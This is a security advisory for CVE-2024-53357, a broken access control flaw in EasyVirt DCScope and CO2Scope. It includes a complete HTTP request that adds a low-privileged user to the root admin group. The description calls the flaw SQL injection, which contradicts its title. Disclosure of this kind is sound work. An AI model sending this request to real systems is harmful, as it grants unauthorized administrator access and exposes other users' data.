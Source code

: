 # [CVE-2024-53357] - EasyVirt - Broken Access Control
#### Exploit Author: [Aurélien BOURDOIS](https://www.linkedin.com/in/aurelien-bourdois)
#### Date: 25-10-2024
#### Vendor: [EasyVirt](https://www.easyvirt.com/)
#### Vulnerable versions: 
- DCScope <= 8.6.0
- CO2Scope <= 1.3.0

## Description:
Multiple SQL injection vulnerabilities in EasyVirt **DCScope <= 8.6.0** and **CO2Scope <= 1.3.0** allows remote authenticated attackers, with low privileges, to (1) add an admin user via the `/api/user/addalias` route; (2) modifiy a user via the `/api/user/updatealias` route; (4) delete users via the `/api/user/delalias` route; (4) get users via the `/api/user/aliases` route; (5) add a root group via the `/api/user/adduser` route; (6) modifiy a group via the `/api/user/updateuser` route; (7) delete a group via the `/api/user/deluser` route; (8) get groups via the `/api/user/users` route; (9) add an admin role via the `/api/user/addrole` route; (10) modifiy a role via the `/api/user/updaterole` route; (11) delete a role via the `/api/user/delrole` route; (12) get roles via the `/api/user/roles` route.

## Exploitation:
Privilege escalation:
```
PUT /api/user/updatealias HTTP/1.1
Host: XX.XX.XX.XX
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json; charset=utf-8
Authorization: Token eyJhbGciOiJIU[..snip..]
Content-Length: 113
Te: trailers
Connection: close

{"login":"elymaro","password":"GBpkyhfCkZtPX95fFmddzg==","user":"root","is_local":1,"is_ldap":0,"is_openid":0}
```
> The parameter `user` means group. `root` is the default administrator group.
>
> The encrypted password is `Elym@r0`. 

## Impact :
A low-privileged user can modify his own group, change its permissions or create/modify other users, enabling escalation of privileges.
In addition, the user can access other users' data, including e-mails, login names, group and role membership.
